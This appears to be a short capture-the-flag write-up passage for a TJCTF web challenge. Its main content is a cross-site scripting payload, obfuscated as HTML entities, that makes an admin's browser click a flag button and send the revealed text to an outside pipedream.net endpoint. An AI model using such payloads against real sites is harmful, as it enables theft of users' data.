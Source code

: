```
<img src=x onerror=&#10&#119&#105&#110&#100&#111&#119&#46&#97&#100&#100&#69&#118&#101&#110&#116&#76&#105&#115&#116&#101&#110&#101&#114&#40&#34&#108&#111&#97&#100&#34&#44&#32&#102&#117&#110&#99&#116&#105&#111&#110&#40&#101&#118&#101&#110&#116&#41&#32&#123&#10&#9&#118&#97&#114&#32&#116&#97&#114&#103&#101&#116&#66&#117&#116&#116&#111&#110&#32&#61&#32&#100&#111&#99&#117&#109&#101&#110&#116&#46&#103&#101&#116&#69&#108&#101&#109&#101&#110&#116&#115&#66&#121&#67&#108&#97&#115&#115&#78&#97&#109&#101&#40&#34&#102&#108&#97&#103&#45&#98&#117&#116&#116&#111&#110&#34&#41&#59&#10&#9&#118&#97&#114&#32&#110&#97&#118&#98&#97&#114&#66&#117&#116&#116&#111&#110&#32&#61&#32&#100&#111&#99&#117&#109&#101&#110&#116&#46&#103&#101&#116&#69&#108&#101&#109&#101&#110&#116&#115&#66&#121&#67&#108&#97&#115&#115&#78&#97&#109&#101&#40&#34&#110&#97&#118&#98&#97&#114&#45&#116&#111&#103&#103&#108&#101&#114&#34&#41&#59&#10&#9&#99&#111&#110&#115&#111&#108&#101&#46&#108&#111&#103&#40&#100&#111&#99&#117&#109&#101&#110&#116&#41&#59&#10&#9&#116&#97&#114&#103&#101&#116&#66&#117&#116&#116&#111&#110&#91&#48&#93&#46&#111&#110&#99&#108&#105&#99&#107&#32&#61&#32&#102&#117&#110&#99&#116&#105&#111&#110&#32&#102&#117&#110&#40&#41&#32&#123&#10&#9&#9&#118&#97&#114&#32&#112&#114&#111&#98&#101&#32&#61&#32&#115&#101&#116&#73&#110&#116&#101&#114&#118&#97&#108&#40&#102&#117&#110&#99&#116&#105&#111&#110&#40&#41&#123&#32&#10&#9&#9&#9&#108&#101&#116&#32&#102&#108&#97&#103&#32&#61&#32&#100&#111&#99&#117&#109&#101&#110&#116&#46&#103&#101&#116&#69&#108&#101&#109&#101&#110&#116&#66&#121&#73&#100&#40&#39&#114&#101&#115&#112&#111&#110&#115&#101&#65&#108&#101&#114&#116&#39&#41&#46&#105&#110&#110&#101&#114&#72&#84&#77&#76&#59&#10&#9&#32&#32&#32&#32&#32&#32&#32&#32&#118&#97&#114&#32&#114&#101&#113&#32&#61&#32&#110&#101&#119&#32&#88&#77&#76&#72&#116&#116&#112&#82&#101&#113&#117&#101&#115&#116&#40&#41&#59&#10&#9&#9&#32&#32&#32&#32&#114&#101&#113&#46&#111&#112&#101&#110&#40&#39&#71&#69&#84&#39&#44&#32&#39&#104&#116&#116&#112&#115&#58&#47&#47&#101&#110&#105&#116&#56&#115&#56&#52&#53&#117&#118&#56&#46&#120&#46&#112&#105&#112&#101&#100&#114&#101&#97&#109&#46&#110&#101&#116&#47&#63&#116&#104&#101&#102&#108&#97&#103&#61&#39&#32&#43&#32&#102&#108&#97&#103&#41&#59&#10&#9&#9&#9&#114&#101&#113&#46&#111&#110&#114&#101&#97&#100&#121&#115&#116&#97&#116&#101&#99&#104&#97&#110&#103&#101&#32&#61&#32&#102&#117&#110&#99&#116&#105&#111&#110&#40&#41&#32&#123&#10&#9&#9&#9&#32&#32&#99&#111&#110&#115&#111&#108&#101&#46&#108&#111&#103&#40&#102&#108&#97&#103&#41&#59&#10&#9&#9&#9&#125&#59&#10&#9&#9&#9&#114&#101&#113&#46&#115&#101&#110&#100&#40&#41&#59&#10&#9&#9&#125&#44&#32&#49&#48&#48&#48&#41&#59&#10&#9&#9&#115&#101&#116&#84&#105&#109&#101&#111&#117&#116&#40&#102&#117&#110&#99&#116&#105&#111&#110&#40&#32&#41&#32&#123&#32&#99&#108&#101&#97&#114&#73&#110&#116&#101&#114&#118&#97&#108&#40&#32&#112&#114&#111&#98&#101&#32&#41&#59&#32&#125&#44&#32&#49&#48&#48&#48&#48&#41&#59&#10&#9&#125&#10&#9&#116&#97&#114&#103&#101&#116&#66&#117&#116&#116&#111&#110&#91&#48&#93&#46&#99&#108&#105&#99&#107&#40&#41&#59&#10&#125&#41&#59&#10>
```

Submitted the payload, send it to the admin, and voila flag:


![fc726a8ab87b6744ca38662f5dafad64.png](/assets/images/5a684e355ef047be8cb1ba3c4feb8879.png)

Flag is **tjctf{st0p_st3aling_th3_ADm1ns_fl4gs}**